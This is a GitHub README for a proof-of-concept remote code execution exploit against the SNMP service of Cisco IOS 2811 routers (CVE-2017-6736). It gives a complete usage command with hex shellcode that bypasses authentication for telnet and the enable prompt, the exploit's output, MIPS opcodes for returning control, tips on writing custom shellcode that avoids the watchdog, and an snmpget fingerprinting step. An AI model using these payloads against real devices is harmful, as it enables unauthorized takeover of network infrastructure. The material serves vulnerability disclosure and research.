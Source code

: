 CVE-2017-6736 / cisco-sa-20170629-snmp Cisco IOS remote code execution
===================


This repository contains Proof-Of-Concept code for exploiting remote code execution vulnerability in SNMP service disclosed by Cisco Systems on June 29th 2017 - <https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170629-snmp> 


Description
-------------

RCE exploit code is available for Cisco Integrated Service Router 2811. This exploit is firmware dependent. The latest firmware version is supported:

- Cisco IOS Software, 2800 Software (C2800NM-ADVENTERPRISEK9-M), Version 15.1(4)M12a, RELEASE SOFTWARE (fc1)

ROM Monitor version:

- System Bootstrap, Version 12.4(13r)T, RELEASE SOFTWARE (fc1)


Read-only community string is required to trigger the vulnerability. 



Shellcode
------------

The exploit requires shellcode as HEX input. This repo contains an example shellcode for bypassing authentication in telnet service and in enable prompt. Shellcode to revert changes is also available. If you want to write your own shellcode feel free to do so. Just have two things in mind:

- Don't upset the watchdog by running your code for too long. Call a sleep function once in a while.
- Return execution flow back to SNMP service at the end. You can use last opcodes from the demo shellcode:

```
3c1fbfc4    lui $ra, 0xbfc4
37ff89a8    ori $ra, $ra, 0x89a8
03e00008    jr  $ra
00000000    nop
```  


Usage example
-------------

```
$ sudo python 2811_snmp_aslr.py 192.168.88.1 public 8fb40250000000003c163e2936d655b026d620000000000002d4a821000000008eb60000000000003c1480003694f000ae96000000000000aea00000000000003c1fbfc437ff89a803e0000800000000
Writing shellcode to 0x8000f000
.
Sent 1 packets.
0x8000f0a4: 8fb40250    lw  $s4, 0x250($sp)
.
Sent 1 packets.
0x8000f0a8: 00000000    nop 
.
Sent 1 packets.
0x8000f0ac: 3c163e29    lui $s6, 0x3e29
.
Sent 1 packets.
0x8000f0b0: 36d655b0    ori $s6, $s6, 0x55b0
```

Notes
-----------

Firmware verson can be read via snmpget command:

```
$ snmpget -v 2c -c public 192.168.88.1 1.3.6.1.2.1.1.1.0

SNMPv2-MIB::sysDescr.0 = STRING: Cisco IOS Software, 2800 Software (C2800NM-ADVENTERPRISEK9-M), Version 15.1(4)M12a, RELEASE SOFTWARE (fc1)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2016 by Cisco Systems, Inc.
Compiled Tue 04-Oct-16 03:37 by prod_rel_team
```

Author
------

Artem Kondratenko https://twitter.com/artkond
